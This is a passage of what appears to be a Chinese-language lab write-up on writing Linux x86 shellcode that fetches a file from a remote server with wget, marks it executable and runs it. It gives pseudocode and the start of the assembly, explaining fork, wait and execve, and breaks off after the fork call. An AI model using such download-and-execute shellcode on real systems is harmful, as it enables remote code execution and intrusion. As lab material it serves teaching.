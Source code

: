 		server_host:
		  db "#{server_host}", 0x00

### 2、实验二：编写linux x86平台上具有下载和执行功能的shellcode

* 实验环境

	* ubuntu 14.04 x86
	* 远程服务器：192.168.227.11

* shellcode编程思路

        start
    	  execve wget file_x
    	  chmod +x file_x
    	  execve file_x
    	end


* 面临的问题

	* 当进程调用exec函数时,如果调用成功则加载新的程序从启动代码开始执行,该进程的用户空间代码和数据完全被新程序替换。调用成功时调用exec函数的程序不再返回,如果调用出错则返回-1。所以exec函数只有出错的返回值而没有成功的返回值。

* 解决方法

	* 使用fork&wait


		* fork()：创建子进程,在子进程中，fork函数返回0，在父进程中，fork返回新创建子进程的进程ID。我们可以通过fork返回的值来判断当前进程是子进程还是父进程。
		* wait():如果父进程的所有子进程都还在运行，调用wait将使父进程阻塞，子进程结束后获取子进程状态改变信息

* 解决后思路

    	start
    	  fork
    	  cmp
    	  if child goto child
    	  wait for child
    	  chmod +x file_x
    	  execve file_x
    	
    	  child:
    		execve wget file_x
    	end

* 汇编程序

        global _start
    	section .text
    	_start:
    	;fork
    	xor eax,eax ; eax寄存器清零
    	mov al,0x2 ; x86平台32位Linux系统调用号 #define __NR_fork  2
    	int 0x80 ;启动系统调用需要使用INT指令。linux系统调用位于中断0x80，执行INT指令时，所有操作转移到内核中的系统调用处理程序，完成后执行转移到INT指令之后的下一条指令。
    	xor ebx,ebx
    	cmp eax,ebx ;ZF=0
    	jz child ;jump if zero(ZF=0)
      
